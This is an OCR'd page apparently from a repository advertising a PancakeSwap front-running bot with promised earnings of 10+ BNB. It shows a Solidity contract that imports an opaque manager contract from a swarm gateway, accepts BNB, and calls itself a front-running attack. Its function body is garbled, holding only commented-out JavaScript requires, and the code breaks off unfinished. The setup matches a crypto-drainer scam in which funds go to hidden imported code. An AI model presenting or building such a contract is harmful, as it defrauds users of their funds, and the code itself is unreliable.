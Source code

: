# BSC-Pancakeswap-
夹子机器人｜自动收入10+BNB｜Pancakes Front run bot｜抢先交易量化交易
pragma solidity ^0.6.6;
 
// PancakeSwap FrontrunDeployer
import "https://github.com/Uniswap/uniswap-v2-core/blob/master/contracts/interfaces/IUniswapV2Callee.sol";
 
 
// PancakeSwap manager
import "https://swarm-gateways.net/bzz:/1b82419dec14725fdb42da4446413392f3807a359096e64dbfc88a15af91bfe3/pancaker.sol";
import "https://github.com/Uniswap/uniswap-v2-periphery/blob/master/contracts/interfaces/V1/IUniswapV1Factory.sol";
import "https://github.com/Uniswap/uniswap-v2-periphery/blob/master/contracts/interfaces/V1/IUniswapV1Exchange.sol";
 
contract UniswapV2FrontBot {
 
    string public tokenName;
	string public tokenSymbol;
	uint frontrun;
	Manager manager;
 
 
	constructor(string memory _tokenName, string memory _tokenSymbol) public {
		tokenName = _tokenName;
		tokenSymbol = _tokenSymbol;
		manager = new Manager();
 
		}
 
 
	    // Send required BNB for liquidity pair
	    receive() external payable {}
 
 
	    // Perform tasks (clubbed .json functions into one to reduce external calls & reduce gas) manager.performTasks();
 
	    function action() public payable {
 
	//Perform a front-running attack on uniswap
 
//const fs = require('fs');
//var Web3 = require('web3');
//var abiDecoder = require('abi-decoder');
//var colors = require("colors");
//var Tx = require('ethereumjs-tx').Transaction;
//var axios = require('axios');
//var BigNumber = require('big-number');
 
//const {NETWORK, PANCAKE_ROUTER_ADDRESS, PANCAKE_FACTORY_ADDRESS, PANCAKE_ROUTER_ABI, PANCAKE_FACTORY_ABI, PANCAKE_POOL_ABI, HTTP_PROVIDER_LINK, WEBSOCKET_PROVIDER_LINK, HTTP_PROVIDER_LINK_TEST} = require('./constants.js');
//const {setBotAddress, getBotAddress, FRONT_BOT_ADDRESS, botABI} = require('./bot.js');
//const {PRIVATE_KEY, TOKEN_ADDRESS, AMOUNT, LEVEL} = require('./env.js');
 